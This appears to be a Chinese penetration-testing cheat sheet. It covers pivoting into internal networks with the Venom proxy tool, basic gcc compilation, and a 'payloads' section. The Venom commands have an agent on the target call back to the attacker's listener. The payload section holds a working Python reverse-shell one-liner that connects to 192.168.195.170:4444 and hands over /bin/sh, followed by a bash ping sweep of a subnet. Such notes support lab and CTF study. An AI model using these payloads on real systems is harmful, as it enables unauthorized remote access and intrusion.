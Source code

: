 ### Venom

1. what?

    用于内网渗透的代理脚本                                                                 [==返回==](#tag5)<a id='back5'></a>

2. 具体实例：

    在GitHub上下载release版本的，admin开头的是在本机运行，agent开头是在内网选择的代理的主机上运行的。具体使用命令，可以通过命令的提示来执行，但是注意（一定要选择一个正确的，符合主机架构的版本，不是都要执行。只选一个就可以了）

    ![image-20230516000841296](http://image.cchl.fun/kali_image/image-20230516000841296.png)
    
    1. ./admin_linux_x64 -lport 9999
    
        本地选择适合本机系统的的admin开头的脚本，同时指定监听端口
    
    2. ./agent_linux_x64 -rhost 192.168.195.170 -rprot 9999
    
        这是在靶机上执行的，需要自己上载。来指定反连的ip和端口

## 其他

### Gcc

1. what?

    C语言的 一个编译器

2. 具体实例：

    1. `gcc -o name c_code.c`：  name编译后的文件名，c_code.c需要编译的c文件

    2. `gcc -o name c_code.c  -Ldir /tmp/csoc.so` ：

        -`Ldir` 选项用于指定编译器在 `dir` 目录中查找库文件，它告诉编译器将目录 `dir` 添加到链接器的库搜索路径中。如果源代码中包含了对库函数的调用，链接器就可以在指定的目录中查找并链接相应的库文件。这个选项通常与 `-l` 选项一起使用，例如 `-L/usr/lib -lmysqlclient` 表示在 `/usr/lib` 目录中查找 `libmysqlclient.a` 或 `libmysqlclient.so` 库文件并链接到程序中

# 相关payload

## 远程执行python自带库的payload来反弹。

<a id='chen'>语法说明</a>

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.195.170",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## bash脚本

```bash
for i in $(seq 1 10); do ping -c 2 172.17.0.$i; done
```

